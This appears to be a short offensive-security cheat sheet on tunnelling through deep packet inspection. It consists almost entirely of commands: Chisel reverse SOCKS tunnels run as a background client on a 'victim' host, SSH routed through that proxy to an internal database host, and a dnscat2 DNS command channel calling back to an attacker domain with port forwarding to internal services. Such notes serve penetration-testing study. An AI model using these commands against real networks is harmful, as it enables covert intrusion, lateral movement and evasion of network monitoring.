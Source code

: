 # Tunneling Through Deep Packet Inspection

## Chisel

Run a Chisel server on Kali:
```
chiselkali$ chisel server --port $KaliPort --reverse
```
then monitor the traffic in case it doesn't work:
```
chiselkali$ sudo tcpdump -nvvvXi $SomeInterface tcp port $KaliPort
```
Send the Chiser client to the target and execute it:
```
victim$ chisel client $IpChiselKali:$KaliPort R:socks > /dev/null 2>&1 &
```
Check the opened port on Kali to reuse it:
```
chiselkali$ ss -lntpu # check port for the Socks proxy
```
and use the port to send Socks command (`nc` doesn't support proxying, instead run `ncat`):
```
kali$ sudo apt-get install ncat
kali$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:$PortCheckedWithSs %h %p' hackeduser@$IpDbIn
```

## DNS

### Nslookup

```
sudo dnsmasq -C dnsmasq.conf -d
sudo tcpdump -i ensXpY udp port 53
resolvectl status
nslookup somesubzone.mydnsserver.com [victiminternaldns]
```

### Dnscat2

```
dnskali$ dnscat2-server mytld.com
victim$ ./dnscat mytld.com
dnscat2> windows
dnscat2> window -i 1
command> ?
command> listen 127.0.0.1:$AttackerPort $IpDeepIn:$PortService
dnskali$ someservice localhost:$PortService
```
